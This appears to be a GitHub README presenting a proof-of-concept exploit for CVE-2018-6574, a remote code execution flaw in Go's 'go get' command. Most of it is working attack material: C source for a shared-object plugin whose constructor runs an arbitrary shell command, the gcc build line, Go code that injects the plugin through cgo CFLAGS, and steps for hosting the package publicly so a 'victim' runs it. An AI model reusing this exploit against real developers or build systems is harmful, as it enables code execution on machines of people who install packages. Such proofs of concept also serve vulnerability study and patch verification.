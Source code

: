 # CVE-2018-6574

Remote command execution in `Golang` go get command.

CVE-2018-6574 this vulnerability impacts Golang go get command and allows an attacker to gain code execution on a system installing his malicious library, this vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.

Golang will build native extensions. This can be used to pass additional flags to the compiler to gain code execution. For example, `CFLAGS` can be used.

## Exploitation:

You will need a malicious `exploit.so` file. The code below should help you with that:

```c
#include<stdio.h>
#include<stdlib.h>

static void exploit() __attribute__((constructor));

void exploit() {
    system("[YOUR CMD]");
}
```

You can build it using the following command:

```bash
gcc -shared -o exploit.so -fPIC exploit.c
```

Notice that you need to build that plugin on the same platform and architecture as the victim.

Then, you need the go code that will tell `cgo` to use your plugin:

```go
package main
// #cgo CFLAGS: -fplugin=./exploit.so
// typedef int (*intFunc) ();
// int _func(intFunc f)
// {
//      return f();
// }
// int one()
// {
//      return 1;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.one)
    fmt.Println(int(C._func(f)));
}
```

Then you should host the malicious package (.so & main.go) in public Github repository.

The malicious package will executed after:

```bash
go get github.com/XXXXX/XXXX
```

Run by the victim.
